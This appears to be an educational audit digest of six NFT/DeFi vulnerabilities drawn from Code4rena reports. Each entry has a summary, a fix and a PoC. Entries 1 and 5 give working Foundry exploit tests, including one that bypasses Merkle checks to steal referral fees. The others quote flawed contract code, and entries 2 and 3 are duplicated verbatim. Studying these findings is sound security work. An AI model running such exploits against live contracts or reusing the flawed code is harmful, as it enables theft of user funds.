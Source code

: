 # ETAAcademy-Adudit: 5. NFT

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>05. NFT</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>NFT</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Distribution can be bricked, and double claims by a few holders are possible when owner calls LiquidInfrastructureERC20::setDistributableERC20s

### Double claiming and bricking distribution

- Summary: Adding a new token can trigger reverts during distribution due to changes in array lengths, while attackers can front-run distribution, resulting in out-of-bounds reverts. Additionally, holders can exploit front-running to distribute rewards and back-run to claim rewards, leading to double claiming and losses for other holders.

- Impact & Recommendation: Removing tokens can cause a loss of token balance until re-added by the owner. To mitigate these risks, it's essential to validate **`setDistributableERC20s`** to prevent changes before distributions occur.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#m-03--distribution-can-be-bricked-and-double-claims-by-a-few-holders-are-possible-when-owner-calls-liquidinfrastructureerc20setdistributableerc20s) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.12;
    import {Test, console2} from "forge-std/Test.sol";
    import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
    import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
    import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    contract AltheaTest is Test {
        function setUp() public {}
        function test_POC() public {
            // setup
            LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
            address[] memory newErc20s = new address[](1);
            uint256[] memory newAmounts = new uint[](1);

            ERC20 DAI = new ERC20("DAI", "DAI");
            ERC20 USDC = new ERC20("USDC", "USDC");
            string memory _name = "LP";
            string memory _symbol = "LP";
            uint256 _minDistributionPeriod = 5;
            address[] memory _managedNFTs = new address[](1);
            address[] memory _approvedHolders = new address[](2);
            address[] memory _distributableErc20s = new address[](1);
            _managedNFTs[0] = address(nft);
            _approvedHolders[0] = address(1);
            _approvedHolders[1] = address(2);
            _distributableErc20s[0] = address(DAI);
            newErc20s[0] = address(DAI);
            nft.setThresholds(newErc20s, newAmounts);
            LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
                _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
            erc.mint(address(1), 100e18);
            erc.mint(address(2), 100e18);
            // issue ==  change in desirable erc20s
            _distributableErc20s = new address[](2);
            _distributableErc20s[0] = address(DAI);
            _distributableErc20s[1] = address(USDC);
            newAmounts = new uint[](2);
            newErc20s = new address[](2);
            newErc20s[0] = address(DAI);
            newErc20s[1] = address(USDC);
            nft.setThresholds(newErc20s, newAmounts);
            deal(address(DAI), address(erc), 1000e18);
            deal(address(USDC), address(erc), 1000e18);
            vm.roll(block.number + 100);
            // frontrun tx
            erc.distribute(1);
            // victim tx
            erc.setDistributableERC20s(_distributableErc20s);
            // backrun tx
            vm.roll(block.number + _minDistributionPeriod);
            vm.expectRevert(); // Index out of bounds
            erc.distribute(1);
        }
    }

  ```

  </details>

## 2.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity

  function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}

function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 3.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- Summary: The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity
function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}


function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 4.[High] update_emergency_council_7_D_0_C_1_C_58() updates nft manager instead of emergency council

### Updates emergency council

- Summary: The function `update_emergency_council_7_D_0_C_1_C_58()` in Seawater's `lib.rs` file, intended to update the emergency council responsible for managing protocol shutdowns, mistakenly updates the `nft_manager` instead. This error prevents the proper updating of the emergency council, which could hinder the protocol's ability to respond to emergency situations, compromising its security and stability.

- Impact & Recommendation: The solution is to replace `self.nft_manager.set(manager)` with `self.emergency_council.set(manager)` to ensure the function performs its intended role.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-superposition#h-01-update_emergency_council_7_d_0_c_1_c_58-updates-nft-manager-instead-of-emergency-council) & [Report](https://code4rena.com/reports/2024-08-superposition)

<details><summary>POC</summary>

```rust

  pub fn update_emergency_council_7_D_0_C_1_C_58(
            &mut self,
            manager: Address,
        ) -> Result<(), Revert> {
            assert_eq_or!(
                msg::sender(),
                self.seawater_admin.get(),
                Error::SeawaterAdminOnly
            );
            self.nft_manager.set(manager);
            Ok(())
        }

  pub fn update_nft_manager_9_B_D_F_41_F_6(&mut self, manager: Address) -> Result<(), Revert> {
        assert_eq_or!(
            msg::sender(),
            self.seawater_admin.get(),
            Error::SeawaterAdminOnly
        );
        self.nft_manager.set(manager);
        Ok(())
    }

```

</details>

## 5.[Medium] Lack of data validation when users are claiming their art allows malicious user to bypass signature/merkle hash to provide unapproved ref*, artId* and imageURI

### Bypass signature/merkle hash

- Summary: The `merkleClaim` function lacks validation for user-submitted parameters, specifically the referrer address (`ref_`), art ID (`artId_`), and image URI (`imageURI`). This vulnerability allows malicious users to bypass signature and Merkle hash checks, leading to significant security risks. Attackers can illegitimately modify `ref_` to steal referral fees, use inappropriate `artId_` to claim unauthorized art, and set invalid `imageURI` that points to unrelated artworks.

- Impact & Recommendation: It is recommended to implement checks on these parameters within the `merkleClaim` function to enhance contract security and user experience.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-phi#m-05-lack-of-data-validation-when-users-are-claiming-their-art-allows-malicious-user-to-bypass-signaturemerkle-hash-to-provide-unapproved-ref_-artid_-and-imageuri) & [Report](https://code4rena.com/reports/2024-08-phi)

<details><summary>POC</summary>

```solidity
function test_claimHack() public {
  bytes32 expectedRoot = 0xe70e719557c28ce2f2f3545d64c633728d70fbcfe6ae3db5fa01420573e0f34b;
  bytes memory credData = abi.encode(1, owner, "MERKLE", 31_337, expectedRoot);
  bytes memory signCreateData = abi.encode(expiresIn, ART_ID_URL_STRING, credData);
  bytes32 createMsgHash = keccak256(signCreateData);
  bytes32 createDigest = ECDSA.toEthSignedMessageHash(createMsgHash);
  (uint8 cv, bytes32 cr, bytes32 cs) = vm.sign(claimSignerPrivateKey, createDigest);
  if (cv != 27) cs = cs | bytes32(uint256(1) << 255);
  phiFactory.createArt{ value: NFT_ART_CREATE_FEE }(
      signCreateData,
      abi.encodePacked(cr, cs),
      IPhiFactory.CreateConfig(participant, receiver, END_TIME, START_TIME, MAX_SUPPLY, MINT_FEE, false)
  );
  address Alice = participant; //Original file setup already deals `participant` enough ether to pay for mint fees
  address Alice_2 = address(0x123456); //Alice's account 2
  vm.startPrank(Alice);
  bytes32[] memory proof = new bytes32[](2);
  proof[0] = 0x0927f012522ebd33191e00fe62c11db25288016345e12e6b63709bb618d777d4;
  proof[1] = 0xdd05ddd79adc5569806124d3c5d8151b75bc81032a0ea21d4cd74fd964947bf5;
  address to = 0x1111111111111111111111111111111111111111;
  bytes32 value = 0x0000000000000000000000000000000003c2f7086aed236c807a1b5000000000;
  uint256 artId = 1;
  bytes memory data = abi.encode(artId, to, proof, Alice_2, uint256(1), value, IMAGE_URL2); // Within this line we have the freedom to decide artId, address of referral and the image URL
  bytes memory dataCompressed = LibZip.cdCompress(data);
  uint256 totalMintFee = phiFactory.getArtMintFee(artId, 1);
  phiFactory.claim{ value: totalMintFee }(dataCompressed);
  (, bytes memory response) = phiFactory.phiRewardsAddress().call(abi.encodeWithSignature("balanceOf(address)", Alice_2));
  uint256 balance = abi.decode(response, (uint256));
  console2.log("Alice_2: ", balance); //Alice successfully illegally receives referral fee through her second account
  vm.stopPrank();
}

```

</details>

## 6.[High] Attakers can steal the funds from long-term reservation

### Long-term reservation

- Summary: Insufficient permission checks and rental fund management allows attackers to exploit setbidtobuy() and withdrawtolandlord() to steal funds from the protocol. Enhancing permission validation and restricting the auto-approve feature can effectively mitigate this issue and secure the protocol’s funds.

- Impact & Recommendation: Attackers can steal funds from the long-term reservation pool without incurring any losses, posing a severe threat to the protocol’s financial security. It is recommended to update the validation logic to use check\*can_approve instead of check_can_send to ensure that only authorized users can withdraw funds and restrict auto-Approve functionality.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-10-coded-estate#h-01-attakers-can-steal-the-funds-from-long-term-reservation) & [Report](https://code4rena.com/reports/2024-10-coded-estate)

<details><summary>POC</summary>

```rust

File: execute.rs#setbidtobuy()


675:             if token.sell.auto_approve {

676:                 // update the approval list (remove any for the same spender before adding)

677:                 let expires = Expiration::Never {  };

678:                 token.approvals.retain(|apr| apr.spender != info.sender);

679:                 let approval = Approval {

680:                     spender: info.sender.clone(),

681:                     expires,

682:                 };

683:                 token.approvals.push(approval);

684:

685:             }

File: execute.rs


1787:     pub fn withdrawtolandlord(

/**CODE**/

1796:         address:String

1797:     ) -> Result<Response<C>, ContractError> {

/**CODE**/

1848:             .add_message(BankMsg::Send {

1849:                 to_address: address,

1850:                 amount: vec![Coin {

1851:                     denom: token.longterm_rental.denom,

1852:                     amount: Uint128::from(amount) - Uint128::new((u128::from(amount) * u128::from(fee_percentage)) / 10000),

File: execute.rs#withdrawtolandlord()


1832:                 if item.deposit_amount - Uint128::from(token.longterm_rental.price_per_month) < Uint128::from(amount)  {

1833:                     return Err(ContractError::UnavailableAmount {  });

1834:                 }

```

</details>
